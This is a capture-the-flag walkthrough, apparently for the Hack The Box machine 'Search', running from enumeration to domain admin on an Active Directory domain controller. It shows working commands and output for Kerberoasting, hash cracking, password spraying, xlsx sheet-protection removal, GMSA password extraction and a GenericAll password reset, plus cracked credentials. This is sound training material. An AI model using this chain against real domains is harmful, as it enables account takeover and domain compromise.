




# Search
## Host file setup

```python
sudo nxc smb 10.129.229.57 --generate-hosts-file /etc/hosts
[sudo] password for kali: 
SMB         10.129.229.57   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```
- Windows version tells me this is going to be vulnerable to ZeroLogon

## Enumeration

### Open ports

```python
nmap -p- --min-rate=2000 -sT research.search.htb                                                              
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-19 18:14 +0100
Nmap scan report for research.search.htb (10.129.229.57)
Host is up (0.013s latency).
rDNS record for 10.129.229.57: RESEARCH.search.htb
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
8172/tcp  open  unknown
9389/tcp  open  adws
49667/tcp open  unknown
49693/tcp open  unknown
49694/tcp open  unknown
49710/tcp open  unknown
49719/tcp open  unknown
49745/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.28 seconds
```

### Nmap

```python
nmap -p 53,80,88,135,139,389,443,445,464,593,636,3268,3269,8172,9389 -A --min-rate=2000 -sT research.search.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-19 18:17 +0100
Nmap scan report for research.search.htb (10.129.229.57)
Host is up (0.013s latency).
rDNS record for 10.129.229.57: RESEARCH.search.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Search &mdash; Just Testing IIS
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-19 17:17:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-19T17:19:38+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: 2026-05-19T17:19:38+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-19T17:19:38+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-19T17:19:38+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2026-05-19T17:19:38+00:00; -1s from scanner time.
8172/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after:  2030-04-05T09:05:25
|_ssl-date: 2026-05-19T17:19:38+00:00; -1s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1903 - 22H2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows
```


## SMB (445)

Null auth is enabled, but not able to use it to list shares or list users

Guest account is also disabled!

## HTTP (80)

The website appears to be mostly static

There is a contact page i can do some testing on

There is a team page, which could be some potential users


```python
Keely Lyons
Dax Santiago
Sierra Frye
Kyla Stewart
Kaiara Spencer
Dave Simpson
Ben Thompson
Chris Stewart
```

I could try and give these names to username anarchy to generate username variations!


## Using username anarchy to generate AD usernames

So ive put the names i found above into a file called `web-users.txt`

Then ill give this file to username anarchy

```python
./username-anarchy -i ../web-users.txt 
keely
keelylyons
keely.lyons
keelylyo
keellyon
keelyl
k.lyons
klyons
lkeely
l.keely
lyonsk
lyons
lyons.k
lyons.keely
kl
dax
daxsantiago
dax.santiago
daxsanti
daxsant
daxs
d.santiago
dsantiago


...[SNIP]...
```

```python
kerbrute userenum --dc research.search.htb -d search.htb potential-users.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/19/26 - Ronnie Flathers @ropnop

2026/05/19 18:31:53 >  Using KDC(s):
2026/05/19 18:31:53 >  	research.search.htb:88

2026/05/19 18:31:53 >  [+] VALID USERNAME:	keely.lyons@search.htb
2026/05/19 18:31:53 >  [+] VALID USERNAME:	dax.santiago@search.htb
2026/05/19 18:31:53 >  [+] VALID USERNAME:	sierra.frye@search.htb
2026/05/19 18:31:53 >  Done! Tested 116 usernames (3 valid) in 0.201 seconds
```
Kerbrute found 3 valid users, this also gives me a username format!

None of them are AS-REP roastable and none of have the username as the password

## Hidden credentials on webserver


Found a password!

```python
IsolationIsKey?
```

There is also what looks like a username in the image:

```python
hope sharp
```

But because of what i already know about the username format i can gather it is `hope.sharp`

```python
nxc smb research.search.htb -u hope.sharp -p 'IsolationIsKey?'        
SMB         10.129.229.57   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.57   445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
```
I have compromised this user

## Access as `hope.sharp`

Now i have compromised a user i can start to enumerate the AD environment

### Shares

```python
nxc smb research.search.htb -u hope.sharp -p 'IsolationIsKey?' --shares
SMB         10.129.229.57   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.57   445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey? 
SMB         10.129.229.57   445    RESEARCH         [*] Enumerated shares
SMB         10.129.229.57   445    RESEARCH         Share           Permissions     Remark
SMB         10.129.229.57   445    RESEARCH         -----           -----------     ------
SMB         10.129.229.57   445    RESEARCH         ADMIN$                          Remote Admin
SMB         10.129.229.57   445    RESEARCH         C$                              Default share
SMB         10.129.229.57   445    RESEARCH         CertEnroll      READ            Active Directory Certificate Services share
SMB         10.129.229.57   445    RESEARCH         helpdesk                        
SMB         10.129.229.57   445    RESEARCH         IPC$            READ            Remote IPC
SMB         10.129.229.57   445    RESEARCH         NETLOGON        READ            Logon server share 
SMB         10.129.229.57   445    RESEARCH         RedirectedFolders$ READ,WRITE      
SMB         10.129.229.57   445    RESEARCH         SYSVOL          READ            Logon server share
```

### Users

```python
nxc smb research.search.htb -u hope.sharp -p 'IsolationIsKey?' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt
```
Ill use this command to output all the user to a full userlist


## Kerberoasting leads to user compromise

```python
nxc ldap research.search.htb -u hope.sharp -p 'IsolationIsKey?' --kerberoasting kerb.hash                                                                
LDAP        10.129.229.57   389    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 (name:RESEARCH) (domain:search.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.229.57   389    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey? 
LDAP        10.129.229.57   389    RESEARCH         [*] Skipping disabled account: krbtgt
LDAP        10.129.229.57   389    RESEARCH         [*] Total of records returned 1
LDAP        10.129.229.57   389    RESEARCH         [*] sAMAccountName: web_svc, memberOf: [], pwdLastSet: 2020-04-09 13:59:11.329031, lastLogon: <never>
LDAP        10.129.229.57   389    RESEARCH         $krb5tgs$23$*web_svc$SEARCH.HTB$search.htb\web_svc*$be239f268197211ccc4a4386ffc1cada$007c0b253bcf5d9877b827407755c2b6c32cbe0d6b53365197a2fd453264002f2805fd752b7c378c79718ef160d6709e9be8646b5c2d2aeeb6aaf585812f69fa95c2fda7f5a2f6e360921c89843ad29f30aa4cd93a59fa650d69c85ec2072c804776fdfbd6148739dc1ff828d75d2e6439f9f554ccf2105c84ccfdc5be9ed14767ff3d8f0613fae4f803db2d4cc160c2c492bc16a51c654b9278350a5e03a31969433b2d4d0d1b921719765016aa2a1aa5afcab87556bdceed080c7cd378c7b3f9f5672cd4dad6aea7222e86efc01b0b96fb03ede68992bbf47b91cadb21318be6eb49e101a04f7e3376ddba43cd0ffb52102d4561acdbaf0d3828748357f53e838cc6c7d277f19fb6908b3d25ca92093a7a59ca93726b7d29777569f5788d1b7a7e421ee553cbbcd2a3e3754a683dd17e0294f86b4862fc3269b2fa420940cba5d57724d51e1a5969baee9978c8c03552063ecdf639e8ed9685132d22c1eb550275368efee88fd2b798569340a782aaebbc1165bbc51384cceaa2ec2a2e61bb0e1f6bc85dd1461d6f658560881b9a539089bb69989509465f4fdee69be0cb411a152db20d16e3e6c0eefd8faac61b0bb78620e1c269158f3f100bae3aad520c3d6c7c3cc4964ff091190d5a188005434d0d3776dfc008a2312170c53be1874c9a1490207a25fab5af38167e68ea699da6c025bd7ad70f2bbb6bc1c53f60171b25b941dcdce91271098c4bdd2a02db7cec9a7e0e0b1679e588a8718d2098f223275d9918ffb0e42fe737436f1f8fe8140ce141ebd0467f63320843741d7c7f3e47d1e6313dc0a22199b95bfbdd746dde4a11d77896fd02878e8ce24e7e31cf5ce2a6b526859fabd40927917d900c147f6f37c421d7d4275201e329e629180646b91605acee402fff21e8d8d4929901ad3ff2c462bb5e5beb9bbf97a89f29705ff414f72fde9f13addb31d29110821e837c4ba4b7b680029435067856f0efd4f066824b0f072cf8a4f03815fb5e909c7f9d0f4ad15b2a7f03b576d7d0f8e866027a1a88492245a33ddd3a5890a3822189a41b35b28a4c2d8f0045119d0821077f1e0b9121602724e1e0ffae9580852058358a650b0a0176e4d1b22aa0445247161185a0b434c205d480ea1afed7df74ee602aae6df850cf478384daa55f6f94004b9f2a8df91f3b71639a9498e0394d4c25090ec273f969470bae755c6cc5a479d153f9db1c3e4d7f1de83ed444f0631365ef4b60c8ff985d0d071fd93cfd3bde5ff3448ecc93d1398cea8cf5859223f021b816d867e67c2f0d68d2a8f0ad5f0e3777810d302069284813696f0a6323f892da36dca543091205edb9909edb3530f799184db637ecbc0f99a40acafc6951ef8d323dfcf403fdeaff29495130e92fcdcc7fe04bfc72ebc17ed08944818e46dafbc1895c09e74a9f6265cd08849d70b08279f4a8fa3c2c4683dd059240f8d21793049a57
```
Found a hash for the user `web_svc`

```python
hashcat kerb.hash /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb\web_svc*$be239f268197211ccc4a4386ffc1cada$007c0b253bcf5d9877b827407755c2b6c32cbe0d6b53365197a2fd453264002f2805fd752b7c378c79718ef160d6709e9be8646b5c2d2aeeb6aaf585812f69fa95c2fda7f5a2f6e360921c89843ad29f30aa4cd93a59fa650d69c85ec2072c804776fdfbd6148739dc1ff828d75d2e6439f9f554ccf2105c84ccfdc5be9ed14767ff3d8f0613fae4f803db2d4cc160c2c492bc16a51c654b9278350a5e03a31969433b2d4d0d1b921719765016aa2a1aa5afcab87556bdceed080c7cd378c7b3f9f5672cd4dad6aea7222e86efc01b0b96fb03ede68992bbf47b91cadb21318be6eb49e101a04f7e3376ddba43cd0ffb52102d4561acdbaf0d3828748357f53e838cc6c7d277f19fb6908b3d25ca92093a7a59ca93726b7d29777569f5788d1b7a7e421ee553cbbcd2a3e3754a683dd17e0294f86b4862fc3269b2fa420940cba5d57724d51e1a5969baee9978c8c03552063ecdf639e8ed9685132d22c1eb550275368efee88fd2b798569340a782aaebbc1165bbc51384cceaa2ec2a2e61bb0e1f6bc85dd1461d6f658560881b9a539089bb69989509465f4fdee69be0cb411a152db20d16e3e6c0eefd8faac61b0bb78620e1c269158f3f100bae3aad520c3d6c7c3cc4964ff091190d5a188005434d0d3776dfc008a2312170c53be1874c9a1490207a25fab5af38167e68ea699da6c025bd7ad70f2bbb6bc1c53f60171b25b941dcdce91271098c4bdd2a02db7cec9a7e0e0b1679e588a8718d2098f223275d9918ffb0e42fe737436f1f8fe8140ce141ebd0467f63320843741d7c7f3e47d1e6313dc0a22199b95bfbdd746dde4a11d77896fd02878e8ce24e7e31cf5ce2a6b526859fabd40927917d900c147f6f37c421d7d4275201e329e629180646b91605acee402fff21e8d8d4929901ad3ff2c462bb5e5beb9bbf97a89f29705ff414f72fde9f13addb31d29110821e837c4ba4b7b680029435067856f0efd4f066824b0f072cf8a4f03815fb5e909c7f9d0f4ad15b2a7f03b576d7d0f8e866027a1a88492245a33ddd3a5890a3822189a41b35b28a4c2d8f0045119d0821077f1e0b9121602724e1e0ffae9580852058358a650b0a0176e4d1b22aa0445247161185a0b434c205d480ea1afed7df74ee602aae6df850cf478384daa55f6f94004b9f2a8df91f3b71639a9498e0394d4c25090ec273f969470bae755c6cc5a479d153f9db1c3e4d7f1de83ed444f0631365ef4b60c8ff985d0d071fd93cfd3bde5ff3448ecc93d1398cea8cf5859223f021b816d867e67c2f0d68d2a8f0ad5f0e3777810d302069284813696f0a6323f892da36dca543091205edb9909edb3530f799184db637ecbc0f99a40acafc6951ef8d323dfcf403fdeaff29495130e92fcdcc7fe04bfc72ebc17ed08944818e46dafbc1895c09e74a9f6265cd08849d70b08279f4a8fa3c2c4683dd059240f8d21793049a57:@3ONEmillionbaby
```
The hash cracked!

```python
web_svc:@3ONEmillionbaby
```
Ill verify these credentials

```python
nxc smb research.search.htb -u web_svc -p '@3ONEmillionbaby'                                                                                       
SMB         10.129.229.57   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.57   445    RESEARCH         [+] search.htb\web_svc:@3ONEmillionbaby
```
This user is compromised!

## `RedirectedFolders$` share

```python
smbclient //research.search.htb/RedirectedFolders$ -U 'web_svc'%'@3ONEmillionbaby'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  Dc        0  Tue May 19 20:13:28 2026
  ..                                 Dc        0  Tue May 19 20:13:28 2026
  abril.suarez                       Dc        0  Tue Apr  7 19:12:58 2020
  Angie.Duffy                        Dc        0  Fri Jul 31 14:11:32 2020
  Antony.Russo                       Dc        0  Fri Jul 31 13:35:32 2020
  belen.compton                      Dc        0  Tue Apr  7 19:32:31 2020
  Cameron.Melendez                   Dc        0  Fri Jul 31 13:37:36 2020
  chanel.bell                        Dc        0  Tue Apr  7 19:15:09 2020
  Claudia.Pugh                       Dc        0  Fri Jul 31 14:09:08 2020
  Cortez.Hickman                     Dc        0  Fri Jul 31 13:02:04 2020
  dax.santiago                       Dc        0  Tue Apr  7 19:20:08 2020
  Eddie.Stevens                      Dc        0  Fri Jul 31 12:55:34 2020
  edgar.jacobs                       Dc        0  Thu Apr  9 21:04:11 2020
  Edith.Walls                        Dc        0  Fri Jul 31 13:39:50 2020
  eve.galvan                         Dc        0  Tue Apr  7 19:23:13 2020
  frederick.cuevas                   Dc        0  Tue Apr  7 19:29:22 2020
  hope.sharp                         Dc        0  Thu Apr  9 15:34:41 2020
  jayla.roberts                      Dc        0  Tue Apr  7 19:07:00 2020
  Jordan.Gregory                     Dc        0  Fri Jul 31 14:01:06 2020
  payton.harmon                      Dc        0  Thu Apr  9 21:11:39 2020
  Reginald.Morton                    Dc        0  Fri Jul 31 12:44:32 2020
  santino.benjamin                   Dc        0  Tue Apr  7 19:10:25 2020
  Savanah.Velazquez                  Dc        0  Fri Jul 31 13:21:42 2020
  sierra.frye                        Dc        0  Thu Nov 18 01:01:46 2021
  trace.ryan                         Dc        0  Thu Apr  9 21:14:26 2020

		3246079 blocks of size 4096. 740692 blocks available
smb: \> 
```
Looks to be all the user folders 

I have read and write ab both of my compromised users!

## Password spray via password reuse

Since this is a service account, another user is likely controller the service account making it likely to be password reuse

```python
nxc smb research.search.htb -u users.txt -p '@3ONEmillionbaby' --continue-on-success

SMB         10.129.229.57   445    RESEARCH         [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby
```
I have compromised another user!

```python
nxc smb research.search.htb -u edgar.jacobs -p '@3ONEmillionbaby' --shares
SMB         10.129.229.57   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.57   445    RESEARCH         [+] search.htb\edgar.jacobs:@3ONEmillionbaby 
SMB         10.129.229.57   445    RESEARCH         [*] Enumerated shares
SMB         10.129.229.57   445    RESEARCH         Share           Permissions     Remark
SMB         10.129.229.57   445    RESEARCH         -----           -----------     ------
SMB         10.129.229.57   445    RESEARCH         ADMIN$                          Remote Admin
SMB         10.129.229.57   445    RESEARCH         C$                              Default share
SMB         10.129.229.57   445    RESEARCH         CertEnroll      READ            Active Directory Certificate Services share
SMB         10.129.229.57   445    RESEARCH         helpdesk        READ            
SMB         10.129.229.57   445    RESEARCH         IPC$            READ            Remote IPC
SMB         10.129.229.57   445    RESEARCH         NETLOGON        READ            Logon server share 
SMB         10.129.229.57   445    RESEARCH         RedirectedFolders$ READ,WRITE      
SMB         10.129.229.57   445    RESEARCH         SYSVOL          READ            Logon server share
```
This user has read access on the `helpdesk` share

There is nothing in the helpdesk share

```python
smb: \edgar.jacobs\Desktop\> ls
  .                                 DRc        0  Mon Aug 10 11:02:16 2020
  ..                                DRc        0  Mon Aug 10 11:02:16 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 21:05:29 2020
  desktop.ini                      AHSc      282  Mon Aug 10 11:02:16 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 21:05:03 2020
  Phishing_Attempt.xlsx              Ac    23130  Mon Aug 10 11:35:44 2020

		3246079 blocks of size 4096. 739700 blocks available
smb: \edgar.jacobs\Desktop\> get Phishing_Attempt.xlsx
getting file \edgar.jacobs\Desktop\Phishing_Attempt.xlsx of size 23130 as Phishing_Attempt.xlsx (223.6 KiloBytes/sec) (average 223.6 KiloBytes/sec)
smb: \edgar.jacobs\Desktop\>
```
However `edgar.jacobs` user directory has a .xlsx file in the `RedirectedFolders$` share



It looks as if column C is hidden on this occasion, it likely contains some passwords!

## Extracting password from .xlsx file

Since .xlsx files are just zipped archives of xml files ill unzip and see whats protecting the column

```python
/xl/worksheets/sheet2.xml
```
So after unzipping it and looking at the path above since im after sheet 2

I see something interesting at the bottom:

```python
<sheetProtection algorithmName="SHA-512" hashValue="hFq32ZstMEekuneGzHEfxeBZh3hnmO9nvv8qVHV8Ux+t+39/22E3pfr8aSuXISfrRV9UVfNEzidgv+Uvf8C5Tg==" saltValue="U9oZfaVCkz5jWdhs9AA8nA==" spinCount="100000" sheet="1" objects="1" scenarios="1"/>
```
Looks like ive found a hash!

So in order to get around this ill place all extracted files in a directory called `xlsx` then ill open my file explorer and open the sheet2.xml file with a text editor and remove the `<sheetProtection>` tags, then i should be able to rezip the files and chnage the filetype back to .xlsx, then i should  be able to view the contents of the column.

```python
zip -r cracked.xlsx.zip xl _rels docProps '[Content_Types].xml'
```
So ive opened `sheet2.xml` in mousepad and removed the protection and saved my changes, now i can zip the 3 dirs and one xml file to make the complete file

Then using my archive manager ill make it a .xlsx file, and now i can reopen it!



Now i have access to that column

```python
cat xlsx-passwords.txt 
;;36!cried!INDIA!year!50;;
..10-time-TALK-proud-66..
??47^before^WORLD^surprise^91??
//51+mountain+DEAR+noise+83//
++47|building|WARSAW|gave|60++
!!05_goes_SEVEN_offer_83!!
~~27%when%VILLAGE%full%00~~
$$49=wide=STRAIGHT=jordan=28$$18
==95~pass~QUIET~austria~77==
//61!banker!FANCY!measure!25//
??40:student:MAYOR:been:66??
&&75:major:RADIO:state:93&&
**30*venus*BALL*office*42**
**24&moment&BRAZIL&members&66**
```
Ill select the full column and store them all in a txt file

## Password spray using extracted passwords

```python
nxc smb research.search.htb -u users.txt -p xlsx-passwords.txt --continue-on-success | grep '\[+\]' 
SMB                      10.129.229.57   445    RESEARCH         [+] search.htb\Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18
```
So by explicitly grepping for `[+]` i can only pull out valid credentials

I have compromised another user!

```python
smb: \sierra.frye\Downloads\Backups\> ls
  .                                 DHc        0  Mon Aug 10 21:39:17 2020
  ..                                DHc        0  Mon Aug 10 21:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 16:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 21:39:17 2020

		3246079 blocks of size 4096. 735726 blocks available
smb: \sierra.frye\Downloads\Backups\> mget *
```
I have found certificates in the RedirectedFolders$ share, i also managed to grab the user flag

## Bloodhound



I have ReadGMSAPassword on the `BIR-ADFS-GMSA$` machine account

## Compromising `BIR-ADFS-GMSA$`

```python
nxc ldap research.search.htb -u sierra.frye -p '$$49=wide=STRAIGHT=jordan=28$$18' --gmsa
LDAP        10.129.229.57   389    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 (name:RESEARCH) (domain:search.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.229.57   389    RESEARCH         [+] search.htb\sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18 
LDAP        10.129.229.57   389    RESEARCH         [*] Getting GMSA Passwords
LDAP        10.129.229.57   389    RESEARCH         Account: BIR-ADFS-GMSA$       NTLM: e1e9fd9e46d0d747e1595167eedcec0f     PrincipalsAllowedToReadPassword: ITSec
```
Ill use nxc to dump the NLMT of the machine account

```python
nxc smb research.search.htb -u 'BIR-ADFS-GMSA$' -H 'e1e9fd9e46d0d747e1595167eedcec0f'   
SMB         10.129.229.57   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.57   445    RESEARCH         [+] search.htb\BIR-ADFS-GMSA$:e1e9fd9e46d0d747e1595167eedcec0f
```
This machine account is compromised!

## Bloodhound on `BIR-ADFS-GMSA$`



I have GenericAll over the user `tristan.davies`, and that user is a domain admin!

## Domain admin abusing `GenericAll`

```python
bloodyAD --host research.search.htb -d search.htb -u 'BIR-ADFS-GMSA$' -p ':e1e9fd9e46d0d747e1595167eedcec0f' set password 'tristan.davies' 'Password123!'

[+] Password changed successfully!
```
Ill change the users password using BloodyAD, other options with GenericAll include a Targeted Kerberoast or a Shadow Credentials attack, but for simplicity ill just change the users password

```python
nxc smb research.search.htb -u 'tristan.davies' -p 'Password123!'                    
SMB         10.129.229.57   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.57   445    RESEARCH         [+] search.htb\tristan.davies:Password123! (Pwn3d!)
```
The `(Pwned!)` indicator shows admin access

```python
impacket-wmiexec search.htb/'tristan.davies':'Password123!'@research.search.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
search\tristan.davies

C:\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

C:\>
```
But since RDP and WINRM are both closed i am limited in shell access, so wmiexec will do!

Domain Admin!
